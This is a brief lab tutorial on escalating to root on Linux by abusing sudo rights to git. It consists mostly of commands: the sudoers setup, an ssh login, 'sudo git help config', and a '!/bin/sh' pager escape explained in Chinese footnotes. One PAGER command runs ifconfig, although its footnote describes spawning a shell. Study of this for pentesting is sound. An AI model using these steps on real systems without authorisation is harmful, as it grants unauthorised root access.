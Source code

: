 ## git Privilege Escalation

`git --help`

`git log`

`PAGER='sh -c "exec ifconfig 0<&1"' git -p help` [^3]

### Sudo Rights Lab setups for Privilege Escalation

`test ALL=(root) NOPASSWD: /usr/bin/git` [^1]

### Exploiting Sudo rights

`ssh test@192.168.0.15`

`sudo -l`

`sudo git help config`[^2]

`id`

### Ref.

- [GTFOBins](https://gtfobins.github.io/gtfobins/git/)

[原文](https://www.hackingarticles.in/linux-for-pentester-git-privilege-escalation/)

---

[^1]: 使用`visudo`命令在 sudoers 文件里添加 test 账户
[^2]: 键入该命令生成 bash shell，类似`man`命令读取配置文件，我们可以通过命令模式输入 `!/bin/sh` 来执行 bash shell，至此就可以提升到 root 权限
[^3]: 通过生成交互式系统 shell 程序来脱离受限环境，也可以用于执行任意系统命令

